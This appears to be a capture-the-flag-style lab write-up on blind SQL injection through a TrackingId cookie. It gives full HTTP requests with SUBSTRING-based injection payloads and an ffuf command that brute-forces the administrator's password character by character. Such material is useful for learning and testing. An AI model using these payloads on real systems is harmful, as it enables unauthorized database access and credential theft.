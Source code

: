 Here we know that the web application executes a SQL statement by considering also a Cookie value `TrackingID` in the following manner:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
This query is vulnerable to SQL injection, but the results from the query are not returned to the user (indeed it is Blind SQLi). However, the application does behave differently depending on whether the query returns any data. If it returns data (because a recognized `TrackingId` was submitted), then a "Welcome back" message is displayed within the page.

Since in Blind SQLi it is not possible to use UNION SQLi techniques (because they need the web page displays the DB data as response), we can use conditional responses and build the following HTTP request:
```
GET /filter?category=Accessories HTTP/1.1
Host: ace71f871eada536c09977cc00c50024.web-security-academy.net
Cookie: TrackingId=l48W2u2AvPGh6hQE' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'),1,1) = 'a'-- -; session=XjYCfagXVJkehdZ03WFYguB7pX4AsRD2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ace71f871eada536c09977cc00c50024.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close


```
If you look at condition after `AND`, we are checking if the 1st character of the administrator's password is `a`. If so, in the response we get `Welcome Back!` string, otherwise we must check for other characters (lower case, upper case, numbers, special characters). We can also use `> 'a'` as condition for understanding where could be the right character. Of course, using `=` is better. If we find the right 1st character, i.e. `c`, then we must select the next substring offset and check the next character and so on:
```sql
AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'),1,2) = 'ca'-- -;
```
We do it until we reach the end of the password. If we get `Welcome Back` for `;<space>` characters, skip them and go to the next offset.

You can automate it by using Burp Intruder or `ffuf`:
```
ffuf -w list.txt:FFUF -u https://ace71f871eada536c09977cc00c50024.web-security-academy.net/filter?category=Accessories -H 'Host: ace71f871eada536c09977cc00c50024.web-security-academy.net' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://ace71f871eada536c09977cc00c50024.web-security-academy.net/' -H 'Connection: keep-alive' -H "Cookie: TrackingId=l48W2u2AvPGh6hQE' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'),1,21) = 'cl0w7gk8qh6sn9rl9qp8FFUF'-- -; session=XjYCfagXVJkehdZ03WFYguB7pX4AsRD2" -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' -fs 1332
```
